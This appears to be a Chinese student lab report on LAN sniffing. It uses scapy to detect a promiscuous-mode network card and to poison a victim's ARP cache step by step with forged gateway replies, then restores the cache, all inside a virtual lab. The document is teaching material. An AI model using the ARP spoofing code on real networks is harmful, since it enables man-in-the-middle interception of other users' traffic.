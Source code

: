 # 第四章 网络监听实验

## 网络拓扑

![network_topology](img/network_topology.png)

如图所示网络中的节点基本信息如下：

- 攻击者主机
  - 08:00:27:38:9e:2e / eth0
  - 172.16.111.137
- 受害者主机
  - 08:00:27:af:e7:f0 / eth0
  - 172.16.111.106
- 网关
  - 08:00:27:a6:84:08 / enp0s9
  - 172.16.111.1

## 实验准备

### 安装 scapy

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 。

```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

安装成功

![success_scapy](img/success_scapy.png)

## 实验一：检测局域网中的异常终端

```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```

![ip_link_show_eth0](img/ip_link_show_eth0.png)

```
# 在攻击者主机上开启 scapy
sudo scapy
```

![open_scapy](img/open_scapy.png)

```
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.106")
```

![promiscing1](img/promiscing1.png)

```
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```

![open_promiscuous](img/open_promiscuous.png)

```
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.106")
```

![promiscing2](img/promiscing2.png)

```
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

![close_promiscuous](img/close_promiscuous.png)

通过查资料，了解到promiscping命令会发送 ARP who-has 请求，而且在混杂模式下，网卡会接收所有经过网卡的包，即不会验证MAC地址，但关闭混杂模式后，网卡只接受发给本机的包。

根据以上实验，也可以看出在开启了混杂模式之后，受害者主机接收了数据包。

## 实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成。

```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![make_arp](img/make_arp.png)

```
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
# 上述命令不能获得网关MAC地址，可以用以下命令
gw_mac
```

![gw_MAC](img/gw_MAC.png)

```
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.106
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
# 这里需要在外面加一层Ethernet帧头才可以“毒化”
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.106", hwdst="08:00:27:38:9e:2e")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

![forge_gateway_mac](img/forge_gateway_mac.png)

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```bash
ip neigh
```

![ip_neigh](img/ip_neigh.png)

回到攻击者主机上的 scapy 交互式终端继续执行命令。

```python
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:a6:84:08", pdst="172.16.111.106", hwdst="08:00:27:af:e7:f0 ")
sendp(restorepkt1, count=100, inter=0.2)
```

![recover_ARP](img/recover_ARP.png)

此时在受害者主机上准备“刷新”网关 ARP 记录。

```bash
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

![back_gateway_mac](img/back_gateway_mac.png)

## 补充 FAQ

### [解决安装 python3-pip 时遇到的依赖冲突](https://superuser.com/questions/1555536/cannot-solve-the-the-following-packages-have-unmet-dependencies-issue)

```bash
apt install python3-pip
# Reading package lists... Done
# Building dependency tree
# Reading state information... Done
# Some packages could not be installed. This may mean that you have
# requested an impossible situation or if you are using the unstable
# distribution that some required packages have not yet been created
# or been moved out of Incoming.
# The following information may help to resolve the situation:
# 
# The following packages have unmet dependencies:
#  libc6-dev : Breaks: libgcc-9-dev (< 9.3.0-5~) but 9.2.1-21 is to be installed
# E: Error, pkgProblemResolver::Resolve generated breaks, this may be caused by held packages.
```

```
apt update && apt-get install gcc-9-base libgcc-9-dev libc6-dev
pip3 install scapy[complete] -i https://pypi.tuna.tsinghua.edu.cn/simple
```

[这种方法也可以解决：](https://blog.csdn.net/wohu1104/article/details/105955741/?utm_medium=distribute.pc_relevant.none-task-blog-2~default~baidujs_title~default-1.no_search_link&spm=1001.2101.3001.4242)

```
sudo apt install python3 python3-pip                                                   100 ⨯
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
python3 is already the newest version (3.9.2-3).
python3 set to manually installed.
The following additional packages will be installed:
  python-pip-whl python3-wheel
The following NEW packages will be installed:
  python-pip-whl python3-pip python3-wheel
0 upgraded, 3 newly installed, 0 to remove and 16 not upgraded.
Need to get 2,284 kB/2,308 kB of archives.
After this operation, 3,669 kB of additional disk space will be used.
Do you want to continue? [Y/n] Y
Err:1 http://http.kali.org/kali kali-rolling/main amd64 python-pip-whl all 20.3.4-2
  404  Not Found [IP: 192.99.200.113 80]
Err:2 http://http.kali.org/kali kali-rolling/main amd64 python3-pip all 20.3.4-2
  404  Not Found [IP: 192.99.200.113 80]
E: Failed to fetch http://http.kali.org/kali/pool/main/p/python-pip/python-pip-whl_20.3.4-2_all.deb  404  Not Found [IP: 192.99.200.113 80]
E: Failed to fetch http://http.kali.org/kali/pool/main/p/python-pip/python3-pip_20.3.4-2_all.deb  404  Not Found [IP: 192.99.200.113 80]
E: Unable to fetch some archives, maybe run apt-get update or try with --fix-missing?
```

```
 wget https://bootstrap.pypa.io/get-pip.py
 sudo python3 get-pip.py 
```



## 参考链接

[老师的实验要求](https://c4pr1c3.gitee.io/cuc-ns/chap0x04/exp.html)

[2020-ns-public-LyuLumos](https://github.com/CUCCS/2020-ns-public-LyuLumos/tree/ch0x04)

[解决安装 python3-pip 时遇到的依赖冲突](https://blog.csdn.net/wohu1104/article/details/105955741/?utm_medium=distribute.pc_relevant.none-task-blog-2~default~baidujs_title~default-1.no_search_link&spm=1001.2101.3001.4242)